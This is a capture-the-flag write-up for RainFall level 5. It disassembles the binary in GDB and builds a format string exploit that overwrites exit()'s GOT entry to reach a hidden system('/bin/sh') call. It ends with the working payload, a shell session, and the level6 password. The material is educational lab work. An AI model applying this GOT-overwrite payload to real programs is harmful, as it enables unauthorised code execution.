 # Level5

## Exploring the binary
```shell
level5@RainFall:~$ ./level5
phantom
phantom
level5@RainFall:~$ ./level5
society 42
society 42
```
Similar to previous levels, this binary program awaits standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
```
The main function calls <code>n()</code> upon execution.
```shell
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```
The input is once again collected using <code>fgets()</code> and safeguarded against buffer overflow. This function does not return to <code>main()</code> - it immediately terminates by calling <code>exit()</code>. It appears that we may encounter a <code>format string</code> attack again. We decide to look for other functions, since this is one is not offering much.
```shell
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```
This reveals function <code>o()</code>, which is not used during runtime.
``` shell
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

At memory address <code>0x80485f0</code>, we locate the sought-after <code>/bin/bash</code>. Consequently, our next task is to devise a method to invoke this function at runtime.
```shell
(gdb) x/s 0x80485f0
0x80485f0:	 "/bin/sh"
```
## format string attack
We first determine which specific stack parameter is occupied by a string passed to <code>printf</code>.
``` shell
level5@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern5
level5@RainFall:~$ cat /tmp/pattern5 - | ./level5
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
We found that the string <code>AAAA</code> resides in the fourth position of the buffer. Our next task is to locate the address of the <code>exit()</code> function, as we intend to overwrite this address with the address of our function <code>o()</code> (<code>0x080484a4</code>). To accomplish this, we need to inspect the dynamic relocation entries, which include the addresses stored in the <code>Global Offset Table (GOT)</code>:
``` shell
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
This reveals that <code>exit()</code> resides at address <code>0x08049838</code>. With this information, we can now construct the <code>format string</code> attack to overwrite the address of <code>exit()</code> with the address of the <code>o()</code> function. To accomplish this using <code>printf()</code>, we first convert the hexadecimal address of <code>o()</code> to its decimal equivalent:
```shell
(gdb) print 0x080484a4
$1 = 134513828
```

## Exploit
``` shell
level5@RainFall:~$ python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d%4$n"' > /tmp/flag5
level5@RainFall:~$ cat /tmp/flag5 - | ./level5
[...]
                                                                                                  512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
